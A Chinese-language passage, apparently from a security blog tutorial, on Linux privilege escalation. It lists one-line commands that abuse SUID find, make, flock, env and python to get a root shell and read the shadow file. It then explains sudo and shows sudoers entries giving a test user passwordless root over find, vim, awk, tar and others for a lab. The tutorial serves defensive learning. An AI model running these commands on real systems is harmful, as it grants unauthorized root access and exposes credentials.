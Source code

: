 1) find

输入以下命令：find . -exec /bin/sh -p \\; -quit，返回shell，可见该进程euid为root，可以读取shadow文件，提权成功！

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/15-1-300x53.png)

2) make

输入以下命令返回root shell：

COMMAND=’/bin/sh -p’

make -s –eval=$’x:\\n\\t-‘”$COMMAND”

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/16-1-300x44.png)

3) flock

输入以下命令返回root shell：

flock -u / /bin/sh -p

****![](http://blog.nsfocus.net/wp-content/uploads/2022/08/17-1-300x55.png)****

4) env

输入以下命令返回root shell：

env /bin/sh -p

****![](http://blog.nsfocus.net/wp-content/uploads/2022/08/18-300x36.png)****

5) python

输入以下命令返回root shell：

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/19-300x19.png)

## ****4\. Sud********o滥用提权****

sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如halt，reboot，su等等。sudo使一般用户不需要知道超级用户的密码即可获得权限。首先超级用户将普通用户的名字、可以执行的特定命令、按照哪种用户或用户组的身份执行等信息，登记在特殊的文件中（通常是/etc/sudoers），即完成对该用户的授权（此时该用户称为“sudoer”）；在一般用户需要取得特殊权限时，其可在命令前加上“sudo”，此时sudo将会询问该用户自己的密码（以确认终端机前的是该用户本人），回答后系统即会将该命令的进程以超级用户的权限运行。之后的一段时间内（默认为5分钟，可在/etc/sudoers自定义），使用sudo不需要再次输入密码。

在sudoers中增加以下内容，可以使用户user\_test可以从任何终端运行，以root用户身份运行命令find 而无需密码。

user\_test  ALL = (root) NOPASSWD: /usr/bin/find

-   权限配置

新建普通用户sudo\_test，而后切换到root用户，执行以下动作：

添加文件的写权限：chmod u+w /etc/sudoers；

向sudoer文件中添加以下内容（可按需增加）：sudo\_test   ALL= (root) NOPASSWD: /usr/bin/find, (root) NOPASSWD: /usr/bin/vim,(root) NOPASSWD:/usr/bin/awk,(root) NOPASSWD:/usr/bin/man,(root) NOPASSWD:/usr/bin/less,(root) NOPASSWD:/bin/more,(root) NOPASSWD:/bin/tar,(root) NOPASSWD:/usr/bin/zip；

